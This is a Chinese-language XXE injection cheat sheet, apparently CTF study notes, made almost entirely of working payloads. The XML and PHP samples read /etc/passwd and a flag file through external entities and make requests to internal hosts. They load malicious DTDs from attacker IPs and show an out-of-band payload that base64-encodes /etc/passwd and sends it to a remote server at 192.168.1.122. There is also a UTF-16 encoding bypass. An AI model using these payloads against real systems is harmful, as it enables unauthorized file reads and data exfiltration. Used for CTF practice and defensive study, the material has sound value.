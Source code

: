 [[toc]]
# XXE/XML实体注入

绕过 -- XXE编码转换成utf-16编码绕过
```
iconv -f utf8 -t utf-16 2.xml>1.xml
```

[初识XXE漏洞](https://blog.csdn.net/weixin_39997829/article/details/79654861) 抓包看是否解析了xml内容, 如果可控。可能存在xxe

## 格式
```xml
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

下面的xxe要和上面的对应
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<user><username>&xxe;</username><password>a</password></user>
```
## 引入代码1
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
注意上admin前有&

## 引入代码2
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://10.164.75.2">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

## 引入代码3
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://10.164.75.2/evil.dtd">
]>
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

## 引入代码3-1

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://10.164.75.2/evil.dtd">
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
## 引入代码4 - 数据不回显时,发送到远程服务器
```php
<?php
$xml=EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://192.168.1.122/evil.dtd">
%dtd;
%send;
]>
EOF;
$data = simplexml_load_string($xml);
#print_r($data);
```
远程 evil.dtd
```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.122/?%file;'>"
>
%all;
```
## 实例

https://www.hetianlab.com/cour.do?w=1&c=CCID2d51-5e95-4c58-8fc9-13b1659c1356

buuoj [NCTF2019]Fake XML cookbook

buuoj [NCTF2019]True XML cookbook